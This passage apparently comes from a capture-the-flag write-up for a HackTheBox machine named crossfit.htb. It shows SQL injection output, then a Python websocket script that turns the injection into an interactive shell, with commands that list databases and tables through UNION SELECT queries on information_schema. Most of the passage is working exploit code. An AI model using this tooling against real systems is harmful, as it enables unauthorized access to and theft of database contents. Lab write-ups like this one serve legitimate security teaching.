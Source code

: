    injection> 3 union select group_concat(schema_name),2 from information_schema.schemata
    [id: information_schema,crossfit,employees, name: 2]
    

I could take this further by adding commands. For example, with a little
refactoring, I’ll add two commands that will list the databases and the tables
within a database:

    
    
    #!/usr/bin/env python3
    
    import json
    import websocket
    from cmd import Cmd
    
    
    class Term(Cmd):
        prompt = "injection> "
    
        def __init__(self):
            self.connect()
            super().__init__()
    
        def connect(self):
            self.ws = websocket.create_connection("ws://gym.crossfit.htb/ws/")
            data = json.loads(self.ws.recv())
            self.token = data["token"]
    
        def send_ws(self, params):
            self.ws.send(
                f'{{"message":"available","params":"{params}", "token": "{self.token}"}}'
            )
            data = json.loads(self.ws.recv())
            self.token = data["token"]
            return data["debug"]
    
        def send_connected(self, params):
            try:
                return self.send_ws(params)
            except websocket._exceptions.WebSocketConnectionClosedException:
                self.connect()
                return self.send_ws(params)
    
        def default(self, args):
            print(self.send_connected(args))
    
        def do_dbs(self, args):
            results = self.send_connected(
                "3 union select group_concat(schema_name),2 from information_schema.schemata"
            )
            print("\n".join(results.split(", ")[0].split()[1].split(",")))
    
        def do_tables(self, args):
            if len(args) == 0:
                print("[-] database name required. run dbs command to list databases.")
                return
            results = self.send_connected(
                f"3 union select group_concat(table_name), 2 from information_schema.tables where table_schema='{args}'"
            )
            print("\n".join(results.split(", ")[0].split()[1].split(",")))
    